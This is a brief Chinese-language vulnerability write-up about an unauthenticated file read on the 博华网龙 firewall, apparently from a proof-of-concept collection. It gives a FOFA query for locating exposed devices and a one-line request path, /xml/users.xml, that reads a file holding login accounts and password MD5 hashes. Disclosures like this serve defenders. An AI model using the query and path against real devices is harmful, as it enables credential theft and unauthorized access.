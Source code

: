 # 博华网龙防火墙 users.xml 未授权访问

## 漏洞描述

博华网龙防火墙 users.xml文件 可被任意用户读取，其中包含登录的账号密码

## 漏洞影响

<a-checkbox checked>博华网龙防火墙</a-checkbox></br>

## FOFA

<a-checkbox checked>"博华网龙防火墙"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1628670749851-c85b5406-15f0-498c-9edd-80b1eb2ac426.png)

验证POC, 读取配置文件获取密码的Md5

```php
/xml/users.xml
```

![img](../../../.vuepress/public/img/1628670712797-5caf4c4d-716b-4aa4-9468-d1ff8c433b66.png)



